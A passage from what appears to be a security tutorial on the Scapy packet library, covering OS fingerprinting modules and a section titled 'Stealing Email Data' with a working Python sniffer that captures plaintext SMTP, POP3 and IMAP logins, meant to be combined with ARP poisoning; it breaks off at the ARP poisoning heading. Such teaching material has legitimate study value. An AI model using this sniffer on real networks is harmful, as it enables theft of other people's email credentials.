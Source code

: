 
We also can plot  graphs with the function **plot()** and **graph()**,  and we can generate 3D  plots with **trace3D()**.



### Nice Third Party Modules

[Fingerprinting](http://nmap.org/book/osdetect-fingerprint-format.html) can be made with the **nmap_fp()** module (which comes from [Nmap](http://nmap.org) prior to v4.23):

```python
>>> load_module("nmap")
>>> nmap_fp("192.168.0.114")
```
[Passive OS fingerprinting](http://www.netresec.com/?page=Blog&month=2011-11&post=Passive-OS-Fingerprinting) can be made with the **p0f** module:

```python
>>>> load_module('p0f')
>>>> sniff(prn=prnp0f)
```




-----------
## <a name="email"></a> Stealing Email Data

The idea of this script is to build a sniffer to capture [SMTP](http://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol), [POP3](http://en.wikipedia.org/wiki/Post_Office_Protocol), and [IMAP](http://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) credentials. Once we couple this sniffer with some [MITM](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) attack (such as **ARP poisoning**), we can steal credentials from other machines in the network.

With this in mind, we write a script that runs a sniffer on all the interfaces, with no filtering. The **sniff**'s **store=0** attribute ensures that the packets are not kept in memory (so we can leave it running):

```python
from scapy.all import *
def packet_callback(packet):
    if packet[TCP].payload:
        mail_packet = str(packet[TCP].payload)
        if 'user' in mail_packet.lower() or 'pass' in mail_packet.lower():
            print '[*] Server: ' + packet[IP].dst
            print '[*] ' + packet[TCP].payload

sniff(filter="tcp port 110 or tcp port 25 or tcp port 143", prn=packet_callback, store=0)
```

Running this script when loading load some mail client (such as [Thunderbird](https://www.mozilla.org/en-US/thunderbird/)) will allow us to see the login information, if they are sent to the server as plain text.



-----------
## <a name="arp"></a> ARP Cache Poisoning
